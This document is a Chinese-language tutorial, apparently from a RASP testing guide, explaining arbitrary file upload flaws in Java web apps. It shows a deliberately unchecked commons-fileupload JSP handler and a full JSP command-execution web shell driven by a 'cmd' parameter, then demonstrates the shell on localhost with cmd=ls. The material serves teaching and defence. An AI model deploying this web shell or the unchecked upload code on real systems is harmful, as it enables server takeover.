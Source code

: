 # 任意文件上传漏洞

Web应用通常都会包含文件上传功能，用户可以将其本地的文件上传到Web服务器上。如果服务器端没有能够正确的检测用户上传的文件类型是否合法(例如上传了`jsp`后缀的`WebShell`)就将文件写入到服务器中就可能会导致服务器被非法入侵。

## 1. Apache commons-fileupload文件上传测试

`Apache commons-fileupload`是一个非常常用的文件上传解析库，`Spring MVC`、`Struts2`、`Tomcat`等底层处理文件上传请求都是使用的这个库，所以`RASP`必须能够支持使用`Apache commons-fileupload`库解析的文件上传请求。

示例-`Apache commons-fileupload`：

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.commons.fileupload.FileItemIterator" %>
<%@ page import="org.apache.commons.fileupload.FileItemStream" %>
<%@ page import="org.apache.commons.fileupload.servlet.ServletFileUpload" %>
<%@ page import="org.apache.commons.fileupload.util.Streams" %>
<%@ page import="java.io.File" %>
<%@ page import="java.io.FileOutputStream" %>
<%
    if (ServletFileUpload.isMultipartContent(request)) {
        ServletFileUpload fileUpload       = new ServletFileUpload();
        FileItemIterator  fileItemIterator = fileUpload.getItemIterator(request);

        String dir       = request.getServletContext().getRealPath("/uploads/");
        File   uploadDir = new File(dir);

        if (!uploadDir.exists()) {
            uploadDir.mkdir();
        }

        while (fileItemIterator.hasNext()) {
            FileItemStream fileItemStream = fileItemIterator.next();
            String         fieldName      = fileItemStream.getFieldName();// 字段名称

            if (fileItemStream.isFormField()) {
                String fieldValue = Streams.asString(fileItemStream.openStream());// 字段值
                out.println(fieldName + "=" + fieldValue);
            } else {
                String fileName   = fileItemStream.getName();
                File   uploadFile = new File(uploadDir, fileName);
                out.println(fieldName + "=" + fileName);
                FileOutputStream fos = new FileOutputStream(uploadFile);

                // 写文件
                Streams.copy(fileItemStream.openStream(), fos, true);

                out.println("文件上传成功:" + uploadFile.getAbsolutePath());
            }
        }
    } else {
%>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>File upload</title>
</head>
<body>
<form action="" enctype="multipart/form-data" method="post">
    <p>
        用户名: <input name="username" type="text"/>
        文件: <input id="file" name="file" type="file"/>
    </p>
    <input name="submit" type="submit" value="Submit"/>
</form>
</body>
</html>
<%
    }
%>
```

示例-本地命令执行后门代码：

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");
    Process process = Runtime.getRuntime().exec(cmd);
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

因为Web应用未检测用户上传的文件合法性导致了任意文件上传漏洞，访问：http://localhost:8000/modules/servlet/fileupload/file-upload.jsp，并选择一个恶意的jsp后门(示例上传的是一个本地命令执行的后门):

<img src="../../images/image-20200921003740246.png" alt="image-20200921003740246" style="zoom:50%;" />

后门成功的写入到了网站目录：

![image-20200921003719254](../../images/image-20200921003719254.png)

访问命令执行后门测试：http://localhost:8000/uploads/cmd.jsp?cmd=ls，如下图：

<img src="../../images/image-20200921003841786.png" alt="image-20200921003841786" style="zoom:50%;" />

